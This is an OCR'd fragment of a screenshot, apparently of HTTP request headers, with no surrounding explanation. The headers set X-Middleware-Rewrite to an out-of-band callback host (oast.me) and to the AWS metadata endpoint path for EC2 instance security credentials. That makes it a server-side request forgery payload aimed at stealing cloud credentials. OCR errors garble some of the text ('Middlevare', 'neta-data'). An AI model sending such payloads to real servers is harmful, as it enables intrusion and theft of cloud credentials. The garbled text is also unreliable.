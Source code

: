 X-Middleware-Rewrite: http://oast.me
X-Middlevare-Rewrite:
http://169.254.169.254/latest/neta-data/identity-credentials/ec2/security-credentials/ec2-instance